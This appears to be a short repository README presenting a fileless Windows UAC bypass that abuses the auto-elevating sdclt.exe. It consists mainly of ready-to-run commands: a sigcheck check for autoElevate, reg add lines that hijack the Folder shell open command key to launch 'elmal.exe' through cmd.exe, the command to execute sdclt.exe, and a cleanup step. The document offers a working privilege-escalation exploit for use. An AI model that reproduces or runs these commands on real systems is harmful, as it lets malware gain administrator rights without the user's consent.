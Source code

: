 **Simple and effective UAC bypass**

##### TL;TR

Sdclt.exe is used in the context of Windows backup and restore mechanisms. You can check it auto-elevates using Sysinternals Sigcheck:
```
sigcheck.exe -m C:\Windows\System32\sdclt.exe | findstr autoElevate

<autoElevate  xmlns="http://schemas.microsoft.com/SMI/2005/WindowsSettings">true</autoElevate>
```
The method is fileless and is based on COM hijacking. Some interesting events which occur when sdclt.exe is called from a medium integrity process:
- It runs another process of sdclt.exe with high privilege
- The high privilege sdclt process calls C:\Windows\System32\control.exe
- Control.exe process runs with high privilege too.

```
reg add "HKCU\Software\Classes\Folder\shell\open\command" /d "cmd.exe /c elmal.exe" /f
reg add HKCU\Software\Classes\Folder\shell\open\command /v "DelegateExecute" /f
```
Execute:
```
%windir%\system32\sdclt.exe
```

Delete after play:
```
reg delete "HKCU\Software\Classes\Folder\shell\open\command" /f
```
